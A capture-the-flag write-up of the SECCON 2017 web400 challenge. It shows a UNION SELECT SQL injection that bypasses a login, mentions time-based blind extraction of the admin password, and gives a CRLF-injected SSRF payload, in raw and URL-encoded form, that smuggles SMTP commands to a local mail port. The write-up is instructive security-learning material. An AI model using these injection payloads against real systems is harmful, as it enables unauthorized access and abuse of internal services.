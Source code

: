 Hello guys , so as always i will share me and my team solution for web400 

First , i would like to thanks all orgz for this ctf , really enjoyed and make me work hard to solve this and others web and crypto challenge

So this task was in first stage simple login form and source code of index.cgi page 

![login](https://user-images.githubusercontent.com/7364615/33808035-018600f8-dde0-11e7-8041-59ca86648b99.PNG)

And this is source code , the best part the sql query 

![source_code](https://user-images.githubusercontent.com/7364615/33808043-294d5866-dde0-11e7-9ff2-eed10fea701e.png)

So what here we can do is inject our payload using username , we can't use password first because its not in the query 
and second it was encrypted with unknown cipher

Lets break this login by just using 'union select'

payload :  "union select 'admin'--"

but wait ? our password is encrypted before the check 

```
$row[0] eq &encrypt($q->param('pass'))
```

So how we can make this true and login ? , lets audit more the code and look for our hope :D 
```
($q->param('save') eq '1' ? $q->cookie(-name=>'remember', -value=>&encrypt($user), -expires=>'+1M') : undef)
```

So if we check the Remember Me option we will get our username used to login encrypted into remember cookie 

Okay , lets try with username : admin and password :anything 

![image](https://user-images.githubusercontent.com/7364615/33808116-3b700182-dde1-11e7-960d-a8f5c7d80c97.png)

This is username (admin) encrypted , lets use it in the payload to make the check True 

```
username : 'union select '58474452dda5c2bdc1f6869ace2ae9e3
password : admin
```

Oh we are in now :D 

![image](https://user-images.githubusercontent.com/7364615/33808129-6f7c57c8-dde1-11e7-953f-ee43da1e672b.png)

But "* No.2 is only for "admin" user." :(

Need to login with admin , so we need to get the real password from database 'SQLite' 

Using this https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet to help me make thinks easier

So lets try "Time-based data extraction"

So what i did first is figure out the time for True and False query 

Here when query True : Time = 1.37

![delay1](https://user-images.githubusercontent.com/7364615/33808192-77963e78-dde2-11e7-8daa-21cb07378e11.PNG)

And when query False Time = 500 ms

![delay2](https://user-images.githubusercontent.com/7364615/33808193-7a36cbfc-dde2-11e7-82bd-76e5c42371ca.PNG)

Then start code to make it fast and easy 

This is my script : [Script](https://github.com/chamli/Write_Up_Ctf/blob/master/SECCON_2017/web400.py)

Just decrease the time in the script due to some problem , so its depend 

Then after the script end it print for us the password 
```
password : Yes!Kusomon!!
```

Login as Admin like a BOSS :D 

Next stage , as the name of Task it will be "SSRF"

Like we see here 

![image](https://user-images.githubusercontent.com/7364615/33808245-634ca9a6-dde3-11e7-8ac4-ae2be598554a.png)

port 25 is open only in local 

With the help of orange bugs again :D 

https://lists.gnu.org/archive/html/bug-wget/2017-03/msg00018.html

Make me exploit it fast and without wasting time , using CRLF will break this and finish this stage 

So my last payload was 

```
127.0.0.1
HELO admin
MAIL FROM:<myemail@gmail.com>
RCPT TO:<root@ymzk01.pwn>
DATA
From:myemail@gmail.com
To:root@ymzk01.pwn
Subject:give me flag
give me flag
.
QUIT
:25/
```

Then encode it to bypass some problem

```
127.0.0.1%0D%0AHELO%20admin%0D%0AMAIL%20FROM%3A%3Cmyemail%40gmail.com%3E%0D%0ARCPT%20TO%3A%3Croot%40ymzk01.pwn%3E%0D%0ADATA%0D%0AFrom%3Amyemail%40gmail.com%0D%0ATo%3Aroot%40ymzk01.pwn%0D%0ASubject%3Agive%20me%20flag%0D%0Agive%20me%20flag%0D%0A.%0D%0AQUIT%0D%0A%:25/
```

And again break this stage and Get our email 


![image](https://user-images.githubusercontent.com/7364615/33808286-f960ec40-dde3-11e7-8f41-dbdda389ed18.png)

Use the cookie to decrypt our flag :D 

![image](https://user-images.githubusercontent.com/7364615/33808293-1567d23c-dde4-11e7-8ce3-ed401edcf0d9.png)

```
SECCON{SSRFisMyFriend!}
```


